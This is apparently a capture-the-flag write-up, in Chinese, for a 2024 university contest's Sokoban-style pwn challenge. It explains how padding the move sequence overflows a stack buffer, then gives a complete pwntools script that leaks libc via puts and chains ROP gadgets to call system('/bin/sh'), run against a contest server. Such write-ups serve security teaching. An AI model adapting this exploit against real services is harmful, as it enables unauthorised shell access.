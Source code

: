 ```yaml
---
title: 磐石行动高校赛2024 初赛 - 推箱子
date: 2024/7/25 11:17:00
updated: 2024/7/25 11:17:00
tags:
    - noob
excerpt: 通过推箱子小游戏引发缓冲区溢出，利用ROP攻击获取shell。
---
```


{% note %}
小明写了一个推箱子小游戏，但有一点小问题。
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.27-3ubuntu1.6|

## 解题思路

简单的推箱子游戏，要求把箱子推到指定位置，完成后可以输入数据。
输入的长度的执行步骤的次数，可以通过 sw 这样的无效动作来刷高次数，从而引发缓冲区溢出，
打常规rop即可。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './game'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('222.67.132.186', 21956)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6')
    elf = ELF(EXE)

    def genKey(leng:int) -> bytes:
        key = 'ddwwwwssdwwssassdwwwsssdww' # a right path to push boxes
        extend = key[:-2] + 'sw' * ((leng - len(key)) // 2) + key[-1]
        return extend.encode()

    gadgets = ROP(elf)
    ret = gadgets.ret.address
    rdi = gadgets.rdi.address
    sh.sendafter(b'move', genKey(0x5a0))
    sh.sendafter(b'name:', b'0'*0x578 + p64(rdi) + p64(elf.got['puts']) +
                 p64(elf.plt['puts']) + p64(elf.symbols['main']))

    putsLibc = u64(sh.recvline()[:6] + b'\0\0')
    libc.address = putsLibc - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {libc.address:#x}'))

    sh.sendafter(b'move', genKey(0x5a0))
    sh.sendafter(b'name:', b'0'*0x578 + p64(rdi) + p64(next(libc.search(b'/bin/sh'))) +
                 p64(ret) + p64(libc.symbols['system']))

    sh.clean()
    sh.interactive()
```
